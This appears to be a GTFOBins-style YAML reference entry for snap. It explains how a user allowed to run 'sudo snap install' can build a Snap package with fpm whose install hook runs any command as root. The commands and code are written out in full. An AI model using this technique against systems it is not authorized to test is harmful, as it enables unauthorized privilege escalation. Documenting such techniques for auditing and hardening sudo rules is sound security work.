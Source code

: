 functions:
  sudo:
    - description: |
        It runs commands using a specially crafted Snap package. Generate it with [fpm](https://github.com/jordansissel/fpm) and upload it to the target.
        ```
        COMMAND=id
        cd $(mktemp -d)
        mkdir -p meta/hooks
        printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
        chmod +x meta/hooks/install
        fpm -n xxxx -s dir -t snap -a all meta
        ```
      code: |
        sudo snap install xxxx_1.0_all.snap --dangerous --devmode
---
